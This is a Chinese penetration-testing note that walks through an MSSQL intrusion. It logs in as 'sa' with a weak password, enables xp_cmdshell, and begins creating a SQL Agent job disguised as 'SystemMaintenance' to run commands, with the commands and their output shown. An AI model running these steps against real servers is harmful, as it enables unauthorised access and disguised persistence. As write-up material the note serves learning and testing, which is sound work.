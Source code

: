 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date: 2025-10-16
title: 从mssql到rdp远程桌面连接
category:
  - 项目
---
```

`fscan`扫描，爆出`mssql`弱密码`san:1`
使用sqsh连接mssql
```bash
sqsh -S 10.99.xx.xx -U sa -P 1
```
## 首次`xp_cmdshell`RCE尝试
为了执行命令，首先查看最短最方便的路径`xp_cmdshell`命令执行
启动`xp_cmdshell`
```bash
1> EXEC sp_configure 'show advanced options', 1; 
2> RECONFIGURE; 
3> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. (return status = 0)
```
查询`xp_cmdshell`是否启用
```bash
1>EXEC sp_configure 'xp_cmdshell';
2>go

name
        ----------------------------------------------------------------------------------------------------------------
        xp_cmdshell

        minimum     maximum     config_value run_value
        ----------- ----------- ------------ -----------
                  0           1            1           1
```
显示已经启用
但是在命令执行时却出现问题
```bash
1> EXEC xp_cmdshell 'whoami'; 
2> go 
Msg 15121, Level 16, State 21 Server 'ZHANGWEI', Procedure 'xp_cmdshell', Line 1
An error occurred during the execution of xp_cmdshell. A call to 'CreateProcess' failed with error code: '5'. (return status = 15121)
```
错误代码5，这表示“访问被拒绝”。这通常是由于SQL Server服务账户没有足够的权限来执行命令。
尝试使用方案二进行命令执行
## SQL Agent 作业RCE
首先查询`SQL Agent`是否启动
```bash
1> DECLARE @agent_status INT; 
EXEC master.dbo.xp_regread 
'HKEY_LOCAL_MACHINE', 
'SYSTEM\CurrentControlSet\Services\SQLSERVERAGENT',
'Start',
@agent_status OUTPUT;
SELECT 
	CASE @agent_status 
		WHEN 2 THEN 'Auto Start' 
		WHEN 3 THEN 'Manual Start' 
		WHEN 4 THEN 'Disabled' 
		ELSE 'Unknown' 
	END AS AgentStatus; 
2> go 
(return status = 0) 

AgentStatus 
------------------------------------------------ 
Auto Start (1 row affected)
```
查询到`agent`状态为自启动，意味指`agent`现在处于启动状态
### 准备步骤
```bash
1> USE msdb; 
2> go 
1> EXEC dbo.sp_add_job 
	@job_name = 'SystemMaintenance', 
	@enabled = 1, 
	@description = 'System maintenance tasks'; 
2> go 
(return status = 0)
```
切换上下文到msdb系统数据库
执行系统存储过程 `sp_add_job`，并设置相应参数以及描述
### 总结：
这段代码在 `msdb`数据库中创建了一个名为 ​**​`SystemMaintenance`​**​ 的 SQL Server 代理作业，该作业处于启用状态，并添加了描述信息。后续需要进一步配置作业步骤（如备份数据库、重建索引等）和调度计划，才能使作业实际运行。
